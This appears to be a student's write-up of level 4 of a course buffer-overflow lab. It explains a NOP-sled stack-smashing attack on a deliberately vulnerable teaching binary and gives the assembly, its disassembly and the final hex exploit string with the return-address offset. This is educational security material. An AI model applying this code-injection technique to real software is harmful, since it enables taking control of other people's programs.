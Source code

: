  ```
In my case, the biggest address number is 55683278 and the smallest address number is 556831f8. Stack grows downward, so if we insert nop instruction in buffer and return to our buffer when <getbufn\> ends, it goes to down until other instruction came out. So if we use the biggest address, it will always execute our instruction. 
For making exploit string, check the buffer size and where we input our return address using ```./level4/nit-test.txt```. Then we can find that 524 to 528 bytes will be return address at stack. After that, make assembly file like below.
```
./level4/nit.s
lea 0x28(%esp), %ebp
movl $0x79caf7f0, %eax
pushl $0x08048e46
ret
./level4/nit.d

nit.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	b8 f0 f7 ca 79       	mov    $0x79caf7f0,%eax
   9:	68 46 8e 04 08       	push   $0x8048e46
   e:	c3                   	ret    

```
Because each time memory change, we have to give memory-relative address to ebp so first line of assembly code is from <testn\>. using this object code, make our string like below.
```
./level4/nitroglycerin.txt
90 90 90 90
...
90 90 90 90
90 8d 6c 24 28 b8 f0 f7 ca 79 68 46 8e 04 08 c3
78 32 68 55
```
then it works.